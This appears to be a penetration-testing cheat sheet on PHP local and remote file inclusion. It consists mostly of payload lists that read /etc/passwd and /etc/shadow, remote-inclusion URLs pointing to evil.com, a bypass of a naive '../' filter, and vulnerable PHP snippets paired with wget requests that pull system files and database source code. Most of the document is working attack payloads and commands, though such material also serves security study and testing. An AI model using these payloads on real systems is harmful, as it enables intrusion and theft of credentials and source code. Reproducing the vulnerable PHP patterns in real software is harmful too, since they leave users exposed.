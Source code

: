 #### 2.1. About

- local and remote file inclusion
- payload examples: 
  - `https://site.com/?file=../../../../../../../etc/hosts`
  - `https://site.com/?file=http://evil.com?x.txt` (where `x.txt` contains malicious code)

Exercise: `https://pentesterlab.com/exercises/php_include_and_post_exploitation`

LFI payloads:
```
$target/a.php?page[]= (FPD - /var/www/fileincl/example1.php)
$target/a.php?page=../../../etc/shadow
$target/a.php?page=../../../etc/passwd
$target/a.php?page=/etc/passwd
$target/a.php?page=../index (appends `.php` by default)
$target/a.php?page=../index.php%00
$target/a.php?page=../../../etc/passwd%00
$target/a.php?page=../phpinfo (appends `.php` by default)
$target/a.php?page=../phpinfo.php%00
$target/a.php?page=../phpinfo.txt%00
```

RFI payloads:
```
$target/a.php?page=http://www.ibm.com/
$target/a.php?page=http://evil.com/phpinfo.txt
$target/a.php?page=http://www.ibm.com/index (appends `.php` by default)
$target/a.php?page=http://www.ibm.com%00
```

#### 2.2. Input sanitization bypass for local file inclusion

As part of the triage process every `../` in the application gets removed.
```python
>>> input = "../../../../../../etc/passwd"
>>> print(input.replace('../', ''));
etc/passwd
```

We can bypass the protection as:
```python
>>> input = "..././..././..././..././..././..././etc/passwd"
>>> print(input.replace('../', ''));
../../../../../../etc/passwd
>>> input = "....//....//etc/passwd"
>>> print(input.replace('../', ''));
../../etc/passwd
```
File path traversal was possible because we abused the function that is suppose to sanitize the user-input.

#### 2.3. PHP examples

##### Example 1:

Code:
```php
$upload_dir = '/var/www/files/';
$file = $_GET['file'];
$path = $upload_dir . $file;
$handle = fopen($path, 'rb');
```

Requests:
```
# read system files
$ wget $target/a.php?file=../../../../../../../../../../../../etc/passwd -O passwd_r

# read source code of arbitrary file
$ wget $target/a.php?file=../../../../../../../../../../var/www/sqli/db.php' -O db.php -q
```

##### Example 2:

Code:
```php
$file = $_GET['file'];
if (!(strstr($file,"/var/www/files/"))) die();
$handle = fopen($file, 'rb');
```

Request:
```
# file parameter value must start with '/var/www/files/'
$ wget $target/b.php?file=/var/www/files/../../../../../../../../../../var/www/sqli/db.php' -O db.php -q
```

##### Example 3:

Code:
```php
$upload_dir = '/var/www/files/';
$file = $_GET['file'];
$path = $upload_dir . $file. ".png"; # will append extension
```

Request:
```
# append NULL byte to payload and bypass prepended file extension (PHP < 5.3.4)
$ wget $target/c.php?file=../../../../../../../../../../../../../../var/www/sqli/db.php%00' -O db.php -q
```

Test on PHP-7.3.14 (`https://www.php.net/manual/en/security.filesystem.nullbytes.php`):
```
php > $path="../../etc/passwd\0";
php > echo $path;
../../etc/passwdphp >
php > file_exists($path);

Warning: file_exists() expects parameter 1 to be a valid path, string given in php shell code on line 1

Call Stack:
  312.3228     388488   1. {main}() php shell code:0
  312.3228     388488   2. file_exists() php shell code:1
```

